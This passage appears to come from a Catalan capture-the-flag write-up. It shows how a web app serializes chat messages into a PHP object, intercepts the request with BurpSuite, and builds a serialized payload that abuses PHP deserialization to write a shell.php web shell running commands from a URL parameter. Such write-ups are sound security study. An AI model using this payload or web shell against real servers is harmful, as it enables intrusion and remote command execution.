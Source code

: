 ```javascript
            /**
             * Serializes an object to PHP format (similar to serialize() in PHP)
             * @param {string} message - The string message to serialize
             */
            function phpSerialize(message) {
                return 'O:7:"Message":1:{s:7:"message";s:' + message.length + ':"' + message + '";}';
            }
```

Utilitzem BurpSuite per facilitar la intrusió. Enviem el missatge `test` i comprovem que envia un objecte serialitzat en PHP, que segurament es deserialitzarà en el servidor amb la classe PHP filtrada.

![alt text](../../../assets/images/matrix/image-11.png)

```bash
O:7:"Message":1:{s:7:"message";s:4:"test";}
```

Podem crear un script en PHP per serialitzar l'objecte, encara que també es pot fer manualment. A continuació, creem un payload per generar un `shell.php` al servidor:

```php
<?php

class Message {
    public $file = "messages.txt";
    public $message = "";
    public function __unserialize(array $data){
        file_put_contents($data['file'],$data['message']."\n", FILE_APPEND);
    }
}
$msg = new Message();
$msg->file = 'shell.php';
$msg->message = "<?php echo exec(\$_GET[\"cmd\"]); ?>";

echo serialize($msg);

```
